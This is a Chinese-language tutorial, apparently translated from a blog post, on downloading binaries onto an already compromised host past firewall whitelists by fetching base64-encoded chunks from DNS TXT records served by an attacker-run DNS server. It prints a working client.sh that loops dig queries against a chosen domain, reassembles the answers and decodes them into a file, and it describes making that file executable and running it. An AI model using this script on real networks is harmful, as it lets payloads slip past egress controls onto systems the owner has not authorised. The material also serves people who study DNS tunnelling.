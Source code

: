 # 通过dns进行文件下载

0x00 背景
-------

* * *

偶尔会遇到这样的情况，防火墙规则极大的限制外网的访问(这种情况经常是一个白名单来处理，仅仅允许少量的主机和外网产生连接)想要下载一下二进制文件到目标主机上，就会很麻烦。

我们来假设这样的一个情景：你已经拥有在上述情况下的主机、需要和你的本机传输工具或者数据。在这个情景下面、你被限制了下载，有一个好办法来突破这种限制，那就是通过DNS查询的来获得想要的数据。

如果目标机器的设定的DNS(或者任何只要目标主机能够在网络上访问的DNS服务器)能够在网络上做DNS查询。那就能够下载想要的二进制文件。

0x02 原理
-------

* * *

不了解这项技术的人可能以为是下面这样的流程:

```
目标主机<---->网络上的DNS服务器<---->注册域名服务器<---->攻击者的远端主机

```

其实是这样的流程：

```
目标主机<---->构建的DNS服务器

```

只要目标主机能够和搭建的DNS服务器进行DNS解析就可以实现。

方法就是在服务端通过base64来编码这些特殊文件，对编码后的文件分块，同时添加到DNS Server的记录中，然后在目标主机上进行域名的解析请求，DNS服务器返回base64编码，在对base64编码进行解码，这样就实现了文件下载。

0x03 实现
-------

* * *

使用方法：

```
1、对需要运行server.py脚本的服务器进行配置
2、在服务器上，执行python server.py -f fielname
3、在客户端上，运行sh client.sh dns.testdomain.com
4、这时你应该看到client和server开始产生base64的调试输出。client会把base64的编码写到本地文件中，同时在结束传输时解码

```

### 0x03a Python代码导入了几个库，这些库可能需要单独安装:

dns和argparse，在安装argparse的时候可能会报错，根据报错安装所需的库，即可正常运行server.py

PS:在https://pypi.python.org/ 能够下载到

server.py有三个参数：

```
-f  指定需要分割的二进制文件
-q  静默模式，不在终端上输出日志信息
-s  指定开始的dns解析的子域，必须设置成一个数字client.sh中的i，必须和-s指定的一样。默认是0

```

### 0x03b 在server上运行server.py，创建DNS服务器，a.out是一个二进制文件。

![enter image description here](http://drops.javaweb.org/uploads/images/75753a5029dc34595e0fe2adc7d7be6d9d08358a.jpg)

在目标主机上运行

### 0x03c sh client.sh domain

会产生以下输出

![enter image description here](http://drops.javaweb.org/uploads/images/abe9e17d94827c0d883919005e3ed7f8f9b9ab1c.jpg)

### 0x03d 脚本会对接受的base64的编码进行解码，添加执行权限后就可执行，执行二进制文件。

![enter image description here](http://drops.javaweb.org/uploads/images/1beb3a0203bca367145661ec821707b4a60ff830.jpg)

0x04 源码
-------

* * *

server.py下载地址

[https://github.com/breenmachine/dnsftp](https://github.com/breenmachine/dnsftp)

client.sh脚本

```
#!/bin/bash
error=';; connection timed out; no servers could be reached'
i=0
echo ''> output.b64
while :
do
  RESP=`dig +short $i.$1 TXT | cut -d'"' -f 2`
  if [ "$RESP" = "$error" ];
  then
    echo "Timeout - done"
    break
  fi
  echo -ne $RESP >> output.b64
  echo $RESP
  i=$((i+1))
done
cat output.b64 | base64 -d >> output

```

文件打包下载：[dnsftp-master.zip](http://static.wooyun.org/20141017/2014101715211783609.zip)

翻译出处：

[http://breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html](http://breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html)